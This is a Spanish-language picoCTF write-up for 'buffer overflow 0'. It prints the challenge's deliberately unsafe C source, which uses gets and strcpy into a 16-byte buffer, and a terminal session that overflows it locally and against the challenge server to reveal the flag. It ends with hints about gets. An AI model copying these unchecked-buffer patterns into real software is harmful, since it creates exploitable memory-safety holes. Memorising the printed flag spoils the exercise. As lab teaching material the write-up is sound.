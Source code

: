 # buffer overflow 0

## Objetivo 
Aplasta la pilaComencemos de manera simple, ¿puede desbordar el búfer correcto? El programa está disponible [aquí](https://artifacts.picoctf.net/c/522/vuln) . Puedes ver la fuente [aquí](https://artifacts.picoctf.net/c/522/vuln.c) . Y conéctate con él usando:`nc saturn.picoctf.net 51110`

## Solución
``` shell
┌──(mino20㉿kali)-[~/Descargas/buffer overflow 0]
└─$ nano vuln.c 
                                                                                  
┌──(mino20㉿kali)-[~/Descargas/buffer overflow 0]
└─$ cat vuln.c            
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

┌──(mino20㉿kali)-[~/Descargas/buffer overflow 0]
└─$ ls
vuln  vuln.c
                                                                                                                                                                       
┌──(mino20㉿kali)-[~/Descargas/buffer overflow 0]
└─$ chmod +x vuln
                                                                                  
┌──(mino20㉿kali)-[~/Descargas/buffer overflow 0]
└─$ file vuln    
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=08fef67fdcc0d93019a26a2f8f97279dee848031, for GNU/Linux 3.2.0, not stripped
                                                                                  
┌──(mino20㉿kali)-[~/Descargas/buffer overflow 0]
└─$ ./vuln 
Please create 'flag.txt' in this directory with your own debugging flag.
                                                                                  
┌──(mino20㉿kali)-[~/Descargas/buffer overflow 0]
└─$ echo 'flag{dummieflag}'                
flag{dummieflag}
                                                                                  
┌──(mino20㉿kali)-[~/Descargas/buffer overflow 0]
└─$ echo 'flag{dummieflag}' > flag.txt
                                                                                  
┌──(mino20㉿kali)-[~/Descargas/buffer overflow 0]
└─$ ./vuln                            
Input: gfchfgchvjbk
The program will exit now
                                                                                  
┌──(mino20㉿kali)-[~/Descargas/buffer overflow 0]
└─$ ./vuln                            
Input: qwertyuioppoiuytrewqwertyuioiuytrewertyuioytrewqwertyuiuytrewertyuiuytrdesxdcfvgbhnjmjhgvfcdxdcfvgbhnjmjhgfcdxsdcfvgbhnjmhgfdcxsdcfvgybhunjigfdrrxesdctfvygbhnuhgfghjkhgzawsexdrctfvgybhunjimkd cfgybhunjimkdrftvgybhunjimctfvgybhunjcftvgybhunijtcfvygbhunijvfygbhunijm
flag{dummieflag}

                                                                                  
┌──(mino20㉿kali)-[~/Descargas/buffer overflow 0]
└─$ nc saturn.picoctf.net 51110       
Input: qwertyuioppoiuytrewqwertyuioiuytrewertyuioytrewqwertyuiuytrewertyuiuytrdesxdcfvgbhnjmjhgvfcdxdcfvgbhnjmjhgfcdxsdcfvgbhnjmhgfdcxsdcfvgybhunjigfdrrxesdctfvygbhnuhgfghjkhgzawsexdrctfvgybhunjimkd cfgybhunjimkdrftvgybhunjimctfvgybhunjcftvgybhunijtcfvygbhunijvfygbhunijm
picoCTF{ov3rflows_ar3nt_that_bad_8ba275ff}
```

## Notas
¿Cómo se puede activar la bandera para imprimir?

Si intenta hacer los cálculos a mano, tal vez intente agregar algunos caracteres más. A veces hay cosas que no te esperas.

Ejecute `man gets`y lea la sección BUGS. ¿Cuántos caracteres puede leer realmente el programa?

## Referencias
sin referencias.